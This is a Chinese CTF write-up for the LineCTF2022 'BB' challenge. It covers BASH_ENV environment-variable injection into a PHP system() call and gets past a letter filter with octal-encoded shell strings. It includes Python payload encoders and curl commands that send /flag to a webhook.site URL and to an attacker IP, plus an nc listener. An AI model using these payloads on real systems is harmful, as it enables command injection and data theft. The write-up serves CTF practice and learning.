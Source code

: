 ```yaml
---
title: '[LineCTF2022]BB'
date: 2024-11-29 20:36:47
tags: 
      - shell反弹
      - curl
categories: 刷题笔记
---
```


## [LineCTF2022]BB

```php
<?php
    error_reporting(0);

    function bye($s, $ptn){
        if(preg_match($ptn, $s)){
            return false;
        }
        return true;
    }

    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i") && bye($v, "/[a-zA-Z]/i")) {
            putenv("{$k}={$v}");
        }
    }
    system("bash -c 'imdude'");
    
    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i")) {
            putenv("{$k}");
        }
    }
    highlight_file(__FILE__);
?>
```

我们利用环境变量注入

[参考网站](https://tttang.com/archive/1450/#toc_0x06-bash_env)

使$k=BASH_ENV

$v=【攻击命令，如cat /flag | curl -d @- [http://xx.xx.xx.xx:7001](http://xx.xx.xx.xx:7001/)(攻击机ip)】



##  绕过大小写过滤：

在linux中，$'\101' = A，故可以用[八进制](https://so.csdn.net/so/search?q=八进制&spm=1001.2101.3001.7020)（即0o101=A）来绕过。



## exp1

我们向指定的webhook站点发送一个post请求，并上传了一个名为flag的文件

```
curl https://webhook.site/a27433a-afdb-9d9a080beb55 -F flag=@/flag
```

这个命令的具体含义如下

curl 是一个命令行工具，用于在终端中传输数据，支持多种协议

https://webhook.site/a27433a-afdb-9d9a080beb55 是一个webhook站点的url，其中包含一个唯一的标识符

-F @/flag  这是命令的参数，其中-F表示要发送一个表单数据，flag=@/flag意味着要上传一个名为flag的文件

```
from urllib.parse import quote_plus
 
cmd = b"curl https://webhook.site/a278d63fdb-9d9a080beb55 -F flag=@/flag"
parts = cmd.split(b' ')
cmd = ["$'"+''.join([f'\\{x:03o}' for x in p])+"'" for p in parts]
cmd = ' '.join(cmd)
 
payload = "$(%s)" % cmd
print(payload)
print(quote_plus(payload))
```

payload

```
?env[BASH_ENV]=%24%28%24%27%5C143%5C165%5C162%5C154%27+%24%27%5C150%5C164%5C164%5C160%5C163%5C072%5C057%5C057%5C167%5C145%5C142%5C150%5C157%5C157%5C153%5C056%5C163%5C151%5C164%5C145%5C057%5C062%5C065%5C063%5C066%5C064%5C145%5C070%5C061%5C055%5C145%5C142%5C065%5C146%5C055%5C064%5C142%5C145%5C144%5C055%5C142%5C144%5C144%5C070%5C055%5C145%5C146%5C060%5C071%5C065%5C064%5C062%5C066%5C071%5C062%5C067%5C060%27+%24%27%5C055%5C106%27+%24%27%5C146%5C154%5C141%5C147%5C075%5C100%5C057%5C146%5C154%5C141%5C147%27%29


```

我们在webhook得到了一个flag文件

![image-20241129211829831](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411292118924.png)

下载下来，打开得到flag



## exp2

我们可以通过反弹shell的方式

先监听端口 

```
nc -lvvp [端口号]
```

```python
import string
 
# cmd = "cat /flag"
cmd = "cat /flag | curl -d @- http://xx.xx.xx.xx:7001" #（攻击机ip）
str = ''
for i in cmd:
    if i in string.ascii_lowercase:
        j = oct(ord(i))[2:]
        str += "$'\\"+j+"'"
    else:
        str+=i
 
print(str)
```

再将结果拼接到url上如：

```
?env[BASH_ENV]=$'\143'$'\141'$'\164' /$'\146'$'\154'$'\141'$'\147' | $'\143'$'\165'$'\162'$'\154' -$'\144' @- $'\150'$'\164'$'\164'$'\160'://xx.xx.xx.xx:7001

```

运行要是没问题的话就能得到flag

## 官方wp

https://blog.maple3142.net/2022/03/27/line-ctf-2022-writeups/
